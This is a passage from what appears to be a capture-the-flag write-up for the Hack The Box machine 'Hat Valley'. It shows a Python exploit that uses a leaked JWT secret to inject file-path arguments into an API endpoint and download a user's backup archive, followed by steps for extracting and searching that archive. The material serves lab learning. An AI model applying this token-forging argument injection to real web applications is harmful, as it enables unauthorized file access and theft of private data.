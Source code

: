 ```python
def main():
	if len(sys.argv)!=1:
		print("Usage: SCRIPT URL PAYLOAD")
		sys.exit(1)

	target = 'http://hat-valley.htb/api/all-leave'
	secret="123beany123"
	payload = "/' /home/bean/Documents/backup/bean_backup_final.tar.gz '/"
	out = jwt_inject_command(target,payload,secret)

	target_path = 'bkp.tar.gz'
	
	if out.status_code == 200:
		with open(target_path, 'wb') as f:
			f.write(out.raw.read())

if __name__ == '__main__':
	main()

```

We need to unpack the `tar.gz` two times, so output should be in the end as seen below.

![picture 21](/assets/images/23270986ddadb9f6374169bc45e80854537e823efd31e9705b1cf19de5a53f98.png)  

Search for `bean` using grep
